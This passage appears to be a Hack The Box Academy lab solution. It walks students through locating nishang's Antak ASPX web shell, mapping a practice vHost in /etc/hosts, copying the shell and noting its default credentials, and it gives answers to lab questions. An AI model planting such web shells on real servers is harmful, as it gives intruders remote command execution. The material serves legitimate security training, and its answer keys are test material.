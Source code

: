Students can use the `locate` command on Pwnbox to find the location of the Antak web shell:

Code: shell

```shell
locate antak
```

```
┌─[eu-academy-2]─[10.10.14.253]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ locate antak

/usr/share/nishang/Antak-WebShell/antak.aspx
```

Answer: `/usr/share/nishang/Antak-WebShell/antak.aspx`

# Antak Webshell

## Question 2

### "Establish a web shell with the target using the concepts covered in this section. Submit the name of the user on the target that the commands are being issued as. In order to get the correct answer you must navigate to the web shell you upload using the vHost name. (Format: \*\*\*\*\\\*\*\*\*, 1 space)"

After spawning the target machine, students need to edit the /etc/hosts file by adding `status.inlanefreight.local` with the respective `STMIP` in Pwnbox/`PMVPN`:

Code: shell

```shell
sudo bash -c 'echo "STMIP status.inlanefreight.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.14.67]─[htb-ac413848@htb-aiebqqjknx]─[~]
└──╼ [★]$ sudo bash -c 'echo "10.129.42.197 status.inlanefreight.local" >> /etc/hosts'
```

Then, students need to make a copy of the antak web shell into their home directory of Pwnbox/`PMVPN`:

Code: shell

```shell
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./
```

```
┌─[eu-academy-2]─[10.10.14.253]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cp /usr/share/nishang/Antak-WebShell/antak.aspx ./
```

With that copy, students can choose to either edit the default credentials of the Antak web shell or leave them as is (i.e. `Disclaimer:ForLegitUseOnly`):
